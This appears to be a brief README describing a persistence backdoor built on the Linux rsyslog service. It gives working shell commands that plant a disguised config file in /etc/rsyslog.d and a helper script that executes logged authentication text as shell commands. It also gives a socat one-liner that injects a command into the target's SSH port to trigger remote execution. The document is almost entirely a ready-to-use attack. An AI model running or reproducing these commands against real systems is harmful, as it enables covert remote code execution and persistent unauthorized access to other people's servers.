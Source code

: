 # RSYSLOG Backdoor

rsyslog is a Linux service for gathering and managing system-wide logs.  since the log managing services and programs are always running on production servers and almost all systems, backdooring rsyslog and similar services are a good way of gaining persistence.

LISTEN:

```
man -a rsyslogd syslog|perl -pe'print "auth.* ^/bin/atg "if$.==177;print"#"' > /etc/rsyslog.d/README.conf
echo -e '#!/bin/sh\nsh -c "$1"'>/bin/atg
chmod 755 /bin/atg
/etc/init.d/rsyslog restart
```

EXECUTE:

```
echo "';whoami>/tmp/rsyslogd.owned;'"| socat STDIO TCP4:<target ip>:22
```
